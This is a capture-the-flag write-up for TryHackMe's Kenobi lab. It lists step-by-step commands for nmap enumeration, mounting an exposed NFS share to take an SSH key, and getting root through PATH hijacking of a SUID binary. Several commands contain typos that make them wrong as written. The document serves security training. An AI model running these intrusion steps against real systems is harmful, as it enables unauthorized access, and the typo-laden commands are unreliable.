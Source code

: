 # TryHackMe - Kenobi Write-Up

## *1. Overview*
- *Target Machine:* Kenobi (TryHackMe)
- *Objective:* Gain root access and retrieve the flag.
- *Techniques Used:* Enumeration, NFS Exploitation, Privilege Escalation.

---

## *2. Enumeration*
### *2.1 - Nmap Scan*
First, I ran a full port scan using nmap:  


nmap -sC -sV -p- -oN scan.txt 10.10.73.74


Findings :





![Image](https://github.com/user-attachments/assets/175fc8e7-85e4-4ebb-bc50-fdcf8717a52b)

## 3. Exploitation

### 3.1 - Exploiting NFS

bash


showmount -e 10.10.73.74



•	Found /var directory as a shared NFS mount.


•	Mounted the share on my local

bash



 sudo mount -o nolock 10.10.73.74 :/var /mnt


 •	Discovered a private SSH key in /mnt/.ssh/id_rsa.

 ### 3.2 - Gaining initial access

 bash


 chmod 600 id_rsa

 
ssh -i id_rsa kenobi@10.10.73.74


•	Logged in as kenobi user.


## 4. Privilege Escalation

### 4.1 - Finding a SUID Binary
I searched for SUID binaries (executables that run as root):


bash


find / -perm -4000 2>/dev/null


Found:

bash 

/usr/bin/menu

This binary was SUID-root, meaning it could be exploited for privilege escalation.


## 4.2- Exploiting the SUID Binary

I ran strings to check how the menu binary works:


bash


strings /usr/bin/menu


Found this :


bash 


/usr/bin/curl 


This meant the binary was calling curl without specifying the full path. Since we can modify the PATH variable, we could replace curl with a malicious script.



Privilage Escalation via PATH Hijacking 

1. Created a fake curl script

   bash

   echo "bin/bash" > curl

   chmod +x curl

2. Modified the PATH

   bash

   export PATH =/tmp:$PATH


3. Ran the vulnerable binary:


   bash

   /ust/bin/menu


   THIS GAVE ME ROOT SHELL !




 ## 5.PROOF OF COMPROMISE 

 with root access, i retrived the final flag:


 bash 


 cat/root/root.txt



 ## Lesson Learned

 . NFS MISCONFIGURATIONS can expose sensitive files 

 . SUID binaries should be monitored to prevent privilege escalation 

 . PATH hijacking is common way to escalate privilages in misconfiguration systems.


 ## SCREENSHOTS 


 ![Image](https://github.com/user-attachments/assets/84335b5e-c053-4147-bfa9-5da20c7515b5)


 ![Image](https://github.com/user-attachments/assets/1c16ae9b-d7dd-4ecd-995b-d548c38331a5)





   














